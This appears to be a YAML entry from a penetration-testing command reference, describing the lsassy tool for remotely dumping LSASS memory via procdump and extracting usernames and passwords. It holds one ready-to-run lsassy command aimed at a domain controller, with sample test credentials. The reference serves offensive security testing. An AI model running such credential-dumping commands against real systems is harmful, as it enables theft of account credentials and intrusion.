 ```yaml
---
title: |
  Extract Credentials Remotely (Procdump )
description: |
  Python tool to remotely extract credentials on a set of hosts. This tool uses impacket project to remotely read necessary bytes in lsass dump and pypykatz to extract credentials.

command: |
  lsassy -m 2 -p /tmp/procdump.exe test.local/testuser:Welkom01!@dc01.test.local
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
attack_types:
  - Enumeration
references:
  - https://github.com/Hackndo/lsassy
  - https://en.hackndo.com/remote-lsass-dump-passwords/
---
```


